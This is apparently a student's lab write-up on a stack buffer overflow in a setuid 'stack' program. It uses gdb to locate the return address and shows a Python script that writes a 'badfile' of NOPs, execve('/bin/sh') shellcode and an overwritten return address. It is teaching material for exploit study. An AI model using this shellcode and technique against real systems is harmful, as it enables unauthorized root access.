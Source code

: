 ![2.3](/images/2.3.png)

If we try to run stack right now then we just get a segmentation fault. We need to create a bad file with the `exploit.c` program to get root access.

### **2.4	Task 2: Exploiting the Vulnerability**

To exploit the vulnerability within the `stack` program we need to overflow the buffer and over write the return address of the `foo` functions stack frame, to point to or own malicious shellcode. In order to not have to just guess where the return address is I am going to re compile with gdb turned on in order to step through the program.

By creating a breakpoint in the program, at the function where the `strcpy()` function is we can use gdb to print out the return address. We know that in x86 architecture that the frame pointer is stored in the ebp register and we can print out that register in gdb by doing the following command:

![gedebp](/images/gedebp.png)

We can see the address of the buffer with gdb as well  like so:

![gdbbuffer](/images/gdbbuffer.png)

![bufferpicture](/images/bufferpicture.png)

Here is the contents of my `exploit.py` 

```python
#!/usr/bin/python3
import sys

shellcode= (
   "\x31\xc0"    # xorl    %eax,%eax
   "\x50"        # pushl   %eax
   "\x68""//sh"  # pushl   $0x68732f2f
   "\x68""/bin"  # pushl   $0x6e69622f
   "\x89\xe3"    # movl    %esp,%ebx
   "\x50"        # pushl   %eax
   "\x53"        # pushl   %ebx
   "\x89\xe1"    # movl    %esp,%ecx
   "\x99"        # cdq
   "\xb0\x0b"    # movb    $0x0b,%al
   "\xcd\x80"    # int     $0x80
).encode('latin-1')


# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

# Put the shellcode at the end
start = 517 - len(shellcode) 
content[start:] = shellcode

##################################################################
ret = 0xbfffeb18 + 120   # replace 0xAABBCCDD with the correct value
offset = 36            # replace 0 with the correct value

content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
